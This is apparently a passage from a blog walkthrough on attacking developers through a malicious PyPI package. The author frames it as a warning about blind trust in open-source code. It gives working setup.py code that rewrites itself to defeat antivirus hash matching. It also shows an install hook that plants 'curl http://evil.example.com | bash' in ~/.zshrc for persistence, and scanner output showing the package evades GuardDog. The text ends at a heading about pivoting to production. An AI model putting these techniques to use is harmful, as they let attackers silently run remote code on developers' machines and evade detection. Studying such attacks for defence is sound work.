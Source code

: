 It shocks me that people seem to blindly trust that the code you see in an open-source repo will match the version that you end up executing. I do wish GitHub offered some way of cryptographically attesting that fact, but I can simply change the code locally before publishing to pypi. The real source code will be in the `.tar.gz` file uploaded to pypi, but do you really check that file for every package you download? Didn't think so. Maybe if you had a tool like guarddog to do that, but as you can see that's easily circumventable.

### Aside: My antivirus will catch your setup.py file!

Let's fix that, shall we?

```python
import uuid

with open(__file__, "a") as f:
    f.write(f"\n# {str(uuid.uuid4())}")
```

Now whenever setup.py executes, it will add a random string as a comment to the end of the file. This makes the `sha256sum` of the file differ for every user. Your only hope now is if your antivirus manages to quarantine the file in the few milliseconds between when `pip` downloads it and when it gets executed, which is unlikely.

## Step 2: Getting persistence

Since our end goal is bypassing SSO, we need to be able to execute our arbitrary code while the developer is logged in, which can be as small as a few minutes for really sensitive stuff. Just hoping setup.py executes during that window isn't likely, but we can gain persistence trivially.

GuardDog will notice if we create a file and mark it executable, and many OSes make running new daemons a privileged operation. So a good compromise would be to append our malicious code to an existing script that the user regularly executes (and rarely reads) while they're logged into production. There are lots of options here, but I think `~/.zshrc` (or equivalent) is a good one. That executes every time someone spawns a new terminal on macOS. The last time I touched the file was 2 months ago, so that's a lot of time to stay undetected.

Let's now gain persistence, which I am just now realizing doesn't even require `subprocess`, we can just write to the file directly:

```python
def run(self):
    with open(f"{os.environ['HOME']}/.zshrc", "a") as f:
        f.write("\ncurl http://evil.example.com > /dev/null 2>&1 | bash || true")
    install.run(self)
```
```
$ guarddog scan ./dist/malicious-1.0.0.tar.gz
Found 0 potentially malicious indicators scanning ./dist/malicious-1.0.0.tar.gz
```

Great! Now we have the ability to execute arbitrary code frequently, with a high likelihood that our code will execute while the victim is logged in.

## Step 3: Pivoting to prod
